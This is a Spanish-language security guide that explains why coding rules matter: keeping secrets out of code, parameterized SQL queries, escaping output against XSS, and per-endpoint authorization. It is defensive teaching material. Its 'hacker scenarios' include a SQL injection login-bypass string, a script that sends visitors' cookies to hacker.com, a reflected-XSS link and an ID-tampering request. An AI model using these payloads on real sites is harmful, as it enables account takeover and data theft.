 # Explicación de las Directrices de Seguridad VibeCoding: ¿Por Qué Insistimos Tanto?

Este documento explica la importancia de cada regla en las "Directrices de Seguridad". Entender esto te ayudará a ver tu código desde la "perspectiva de un hacker" y prevenir problemas antes de que ocurran.

---

## ⭐ Reglas de Oro

### 【Nunca hardcodear secretos】 & 【Usar variables de entorno】 & 【Ignorar archivos secretos】

**¿Por qué es importante?**

Estas tres reglas son las leyes supremas de supervivencia del mundo digital. Tu código (especialmente al usar Git) será copiado, compartido y almacenado en múltiples lugares. Escribir contraseñas, claves API y otros "secretos" directamente en el código es como tatuarse la contraseña de la caja fuerte en la frente - cualquiera que te vea (vea el código) puede abrir fácilmente tu caja fuerte.

**Escenario del Hacker 😈**
> Me encanta buscar `password`, `api_key` o `db_connect` en GitHub. Encontré tu proyecto público y en un archivo llamado `config.js` vi este código: `const db_password = 'Password123!';`. ¡Perfecto! Ni siquiera necesito atacar tu sitio - ahora puedo intentar conectarme directamente a tu base de datos con esta contraseña.

**Consecuencias Catastróficas 💥**

**Control completo del servicio.** Los hackers pueden robar, alterar, eliminar todos los datos de tus usuarios, o usar tus servicios API de pago para actividades ilegales, con todas las facturas a tu nombre.

---

## 📥 Manejo de Entrada del Usuario

### 【Prevenir Ataques de Inyección SQL】

**¿Por qué es importante?**

Imagina la base de datos como un robot que solo entiende el lenguaje SQL. Si concatenas directamente la entrada del usuario con tus comandos, los usuarios tienen la oportunidad de pronunciar sus propios "comandos". Las consultas parametrizadas le dicen al robot: "Escucha, la siguiente parte son **solo datos** - sin importar el contenido, no los ejecutes como comandos."

**Escenario del Hacker 😈**
> En el campo de login de tu sitio, ingresé `' OR '1'='1' --` como nombre de usuario. Asumo que tu consulta SQL está escrita así: `"SELECT * FROM users WHERE username = '" + userInput + "';`. Mi entrada la transformó en `SELECT * FROM users WHERE username = '' OR '1'='1' --';`. `'1'='1'` siempre es verdadero, así que he eludido la verificación de contraseña y me he logueado exitosamente en la primera cuenta de usuario (usualmente el administrador).

**Consecuencias Catastróficas 💥**

Los atacantes pueden eludir el login, robar todos los datos de la base de datos (listas de usuarios, hashes de contraseñas), o incluso eliminar la base de datos.

### 【Prevenir Ataques de Secuencias de Comandos entre Sitios (XSS)】

**¿Por qué es importante?**

Si tu sitio web es como un espejo que refleja directamente el contenido de entrada del usuario, entonces los usuarios pueden incrustar scripts JavaScript maliciosos en el contenido. Cuando otros usuarios navegan por este contenido, el script malicioso se ejecutará en sus navegadores, robando su información. La codificación de entidades HTML convierte caracteres especiales en scripts maliciosos (como `<`, `>`) en texto plano inofensivo, haciéndolos no ejecutables.

**Escenario del Hacker 😈**
> Dejé un comentario en la sección de comentarios de tu artículo: `<script>fetch('https://hacker.com/steal?cookie=' + document.cookie)</script>`. Este texto fue almacenado en la base de datos tal como está. Ahora cualquier usuario que lea este comentario tendrá su navegador ejecutando automáticamente este script, enviando sus cookies de login a mi servidor. Con las cookies, puedo suplantar su identidad para iniciar sesión en el sitio web.

**Método de Ataque Avanzado: ¿Cómo Puede el Código del Usuario A Robar los Datos del Usuario B?**

Muchas personas se preguntan: "El atacante no modificó mi sitio web, entonces ¿cómo puede robar los datos de otros usuarios?" Déjame explicarlo con un ejemplo completo:

1. **El atacante A crea un enlace malicioso**
   ```
   https://yoursite.com/detail.php?id=1<script>steal()</script>
   ```

2. **El atacante engaña a la víctima B a través de ingeniería social**
   - Email: "¡Mira el trabajo fantástico de este fotógrafo!"
   - Publicaciones en redes sociales, comentarios en foros, etc.

3. **¿Qué pasa cuando la víctima B hace clic en el enlace?**
   ```php
   // Tu código (vulnerable)
   <meta property="og:url" content="<?php echo $_SERVER['REQUEST_URI']; ?>">
   
   // Salida real al navegador de B
   <meta property="og:url" content="/detail.php?id=1<script>steal()</script>">
   ```

4. **¿Por qué pueden robar los datos de B?**
   - B ya está autenticado en tu sitio web
   - El script malicioso se ejecuta bajo **tu dominio**, por lo que puede:
     - Leer las cookies de B (credenciales de login)
     - Acceder al localStorage de B
     - Hacer solicitudes en nombre de B
     - Modificar el contenido de la página (ej: formularios de login falsos)

**Analogía Simple**
Imagina que tu sitio web es un banco:
- El atacante A coloca un "recibo de retiro falso" (script malicioso) en el vestíbulo del banco
- El cliente B piensa que es legítimo e ingresa su contraseña
- A obtiene la contraseña de B

XSS permite a los atacantes colocar "recibos de retiro falsos" (código malicioso) en tu "vestíbulo del banco" (sitio web).

Por eso debes usar `htmlspecialchars()` - garantiza que toda entrada del usuario se muestre como texto plano, no como código ejecutable.

**Consecuencias Catastróficas 💥**

Robo masivo de cuentas de usuario, fuga de datos personales, sitios web infiltrados con contenido de phishing o scripts de minería.

---

## 🔐 Permisos y Autenticación

### 【Protección de Endpoints API】

**¿Por qué es importante?**

Las interfaces frontend (UI) pueden ocultar botones, pero los hackers nunca confían en las interfaces. Llaman directamente a tus APIs backend con herramientas (como Postman, curl). Debes asumir que cada endpoint API será atacado directamente, por lo que cada endpoint debe ser un guardia independiente, verificando por sí mismo la identidad y permisos de los visitantes.

**Escenario del Hacker 😈**
> Descubrí que para modificar información personal, el frontend envía una solicitud a `/api/user/update`. Aunque no puedo ver los botones de edición de otras personas, asumo que esta API distingue usuarios a través de `userId`. Intenté enviar una solicitud a `/api/user/update?userId=1` (ID del administrador) con los datos que quería modificar. ¡Dios mío, el servidor no verificó si la solicitud venía de mí personalmente y cambió exitosamente el email del administrador!

**Consecuencias Catastróficas 💥**

Usuarios ordinarios pueden alterar datos de otros usuarios o incluso administradores, o ejecutar permisos que no deberían tener, causando caos sistémico.